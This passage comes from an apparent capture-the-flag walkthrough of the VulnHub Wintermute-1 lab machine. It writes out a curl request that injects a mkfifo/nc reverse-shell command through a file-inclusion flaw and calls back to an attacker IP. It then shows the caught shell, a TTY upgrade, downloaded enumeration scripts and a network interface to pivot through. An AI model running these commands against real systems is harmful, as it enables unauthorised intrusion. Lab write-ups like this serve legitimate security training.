```
```
Next we need to send a reverse shell.
Go to pentest monkey for some payloads;
We'll use:

    curl -v http://192.168.251.7/turing-bolo/bolo.php?bolo=../../../var/log/mail \
    --data-urlencode \
    'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.251.4 4242 >/tmp/f'

Start the listener, and we get a connection once the command above is executed
```
kali@kali:~$ nc -lnvp 4242

listening on [any] 4242 ...
connect to [192.168.251.4] from (UNKNOWN) [192.168.251.7] 42346
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@straylight:/var/www/html/turing-bolo$ ^Z
[1]+  Stopped                 nc -lnvp 4242
kali@kali:~$ stty raw -echo


www-data@straylight:/var/www/html/turing-bolo$ export TERM=xterm
```
Download enumeration scripts. First spin a python server on Attack box:

    kali@kali:~$ cd postexp && sudopython -m SimpleHTTPServer 80

Then download the scipts,
```
www-data@straylight:/dev/shm$ wget -r -np 192.168.251.4/

www-data@straylight:/dev/shm/192.168.251.4:8000$ bash les.sh
```
No kernel exploit is available

    www-data@straylight:/dev/shm/192.168.251.4:8000$ bash LinEnum.sh

Going through the report shows, there's a second network interface. Its connected to another machine.
```
### NETWORKING  ##########################################
[-] Network and IP info:
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.251.7  netmask 255.255.255.0  broadcast 192.168.251.255
        inet6 fe80::a00:27ff:fedf:21fb  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:df:21:fb  txqueuelen 1000  (Ethernet)
        RX packets 2133  bytes 708829 (692.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 458  bytes 78051 (76.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

enp0s8: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.219.8  netmask 255.255.255.0  broadcast 192.168.219.255
        inet6 fe80::a00:27ff:fe4f:a80c  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:4f:a8:0c  txqueuelen 1000  (Ethernet)
        RX packets 951  bytes 500750 (489.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 27  bytes 3832 (3.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

...
```
From LinEnum.sh shows us screen with suid bit set and a version number,


[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
[1]: https://www.vulnhub.com/entry/wintermute-1,239/
[2]: https://twitter.com/@_creosote
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator